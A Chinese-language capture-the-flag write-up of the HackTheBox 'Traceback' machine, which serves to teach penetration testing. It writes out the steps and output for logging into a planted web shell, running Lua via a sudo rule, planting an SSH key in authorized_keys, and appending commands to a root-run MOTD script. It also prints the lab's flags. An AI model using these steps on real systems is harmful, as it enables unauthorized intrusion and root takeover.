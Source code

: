```yaml
---
title: HackTheBox::Traceback
date: 2020-07-17
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180751.png
description: 
categories: 
- 渗透
tags:
- 提权
---
```

打开是一个黑页

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180759.png)

看源码有一句hint：

```
<!--Some of the best web shells that you might need ;)-->
```

 

### 利用已有的webshell获得webadmin权限

扫目录，无果，尝试直接Google这句话，果然找到了作者的Github，在作者列出的一堆shell里面一个个尝试，最后找到了[smevk.php](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php)，用户密码admin就进去了，然后直接上传文件getshell。

在/home目录下发现两个文件夹，其中sysadmin没有权限访问，webadmin里面有个note.txt：

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

 

然后我们可以查看webadmin的.bash_history：

.bash_history

 

 

好吧其实这才是原版：

```
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

大概就是通过 `/home/sysadmin/luvit` 这个东西来执行lua脚本，找了半天并没有找到privesc.lua，我们可以新建一个来执行，由于lua可以用sysadmin权限执行，我们得以读取/home/sysadmin/user.txt；

查看webadmin的权限：

```
(webadmin:/var/www/html) $ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
(webadmin:/var/www/html) $
```

privesc.lua：

```
os.execute("ls /home/sysadmin/")
os.execute("cat /home/sysadmin/user.txt")
```

 

两次分别用蚁剑终端执行：

```
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
luvit
user.txt
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
faca73f508ba5f752100d6de13500714
(webadmin:/home/webadmin) $
```

 

### 写公钥获得sysadmin的SSH

运行命令生成RAS公私钥对：

```
ssh-keygen -t rsa
```

 

保存到当前目录，我们可以看到生成了两个文件：

```
root@wh1sper:~/HTB/machine/Traceback# ls -a
.  ..  id_rsa  id_rsa.pub  pspy64  pspy64s  unix-privesc-check  unix-privesc-check.tar
root@wh1sper:~/HTB/machine/Traceback#
```

其中 `id_rsa.pub` 是公钥，我们利用webshell把他上传到 `/home/username/.ssh/authorized_keys` 这个文件里面就可以获得这个user的权限。

既然lua脚本可以读写sysadmin的目录，我们便利用他写sysadmin的公钥：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180809.png)

 

随后执行命令，用私钥登录SSH：

```
ssh -i id_rsa sysadmin@10.10.10.181
```

可以看到我们是sysadmin了。

 

### 利用pspy工具在没有root的情况下监视高权限进程



pspy工具地址：

https://github.com/DominicBreuker/pspy

https://github.com/Tib3rius/pspy



利用webshell上传到服务器，在当前目录执行：

```
./pspy64 
```

 

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180819.png)

 

可以看到

标机器每30秒会执行一个cp命令，把一些文件从backup目录复制到/etc/update-motd.d/

```
/bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

 

我们去查看这个目录下有什么东西：

```
$ cd /etc/update-motd.d/
$ pwd
/etc/update-motd.d
$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
 
[ -r /etc/lsb-release ] && . /etc/lsb-release
 
 
echo "\nWelcome to Xh4H land \n"
$ 
```

 

是不是很熟悉呢？在刚刚登录的时候也是见到了这句话： `Welcome to Xh4H land`

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180829.png)

 

随后我们监视到，每次登录SSH都会执行以下命令：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180839.png)

其中能找到这样一条：

```
CMD: UID=0    PID=2007   | /bin/sh /etc/update-motd.d/00-header
```

 

 

### 利用root权限运行的脚本弹shell

目的很明确了，这个00-header脚本是用root执行的，我们测试一下：

```
$ echo 'id' >> 00-header
$ exit
root@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
uid=0(root) gid=0(root) groups=0(root)
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:23:33 2020 from 10.10.14.98
$
```

 

 

id被执行了。不过这个00-header文件好像一直在被还原，手速要快。

弹之：

~~md蜜汁环境弹不过来~~

反正我们知道/root/root.txt，直接`echo 'cat /root/root.txt' >> 00-header`

然后登录就能看到了：

```
echo 'cat /root/root.txt' >> 00-headerroot@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
96c02bb36b51b8f45d59482a4b0c1aba
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:31:58 2020 from 10.10.14.98
$
```

环境一直有人搅屎。。。建议在美国晚上的时候打